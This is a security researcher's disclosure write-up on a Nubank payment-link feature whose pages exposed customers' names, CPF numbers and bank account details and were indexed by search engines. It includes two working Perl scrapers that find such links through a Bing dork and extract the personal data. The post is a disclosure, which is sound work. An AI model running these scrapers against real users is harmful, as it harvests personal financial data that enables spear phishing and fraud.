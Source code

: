 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Table of contents:
- [Summary](#summary)
- [Description](#description)
- [Prooft of Concept](#proof-of-concept)
- [Impact](#impact)
- [Conclusion](#conclusion)
- [References](#references)

---

### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

*Disclaimer:* the responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed some of the necessary actions/modifications to minimize any undue action that explores the context covered in this publication. Other recommendations to mitigate the vulnerabilities were made by me, however the company did not think it necessary to apply them.

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/nubank-scraping/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/nubank-scraping/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL. [[1]](#references)

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to analyse whether this was really possible, I decided to create a *dork* [[2]](#references) to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/nubank-scraping/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/nubank-scraping/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* [[3]](#references) for Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

And this was the result:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)